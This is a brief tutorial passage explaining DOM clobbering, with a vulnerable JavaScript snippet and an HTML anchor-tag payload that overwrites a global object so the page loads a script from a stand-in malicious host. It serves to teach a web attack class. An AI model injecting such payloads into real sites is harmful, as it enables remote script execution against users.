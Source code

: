 The term clobbering comes from the fact that you are "clobbering" a global variable or property of an object and overwriting it with a DOM node or HTML collection instead. For example, you can use DOM objects to overwrite other JavaScript objects and exploit unsafe names, such as `submit`, to interfere with a form's actual `submit()` function.

# Exploit
```html
<script>
    window.onload = function(){
        let someObject = window.someObject || {};
        let script = document.createElement('script');
        script.src = someObject.url;
        document.body.appendChild(script);
    };
</script>
```

To exploit this vulnerable code, you could inject the following HTML to clobber the `someObject` reference with an anchor element:
```html
<a id=someObject><a id=someObject name=url href=//malicious-website.com/evil.js>
```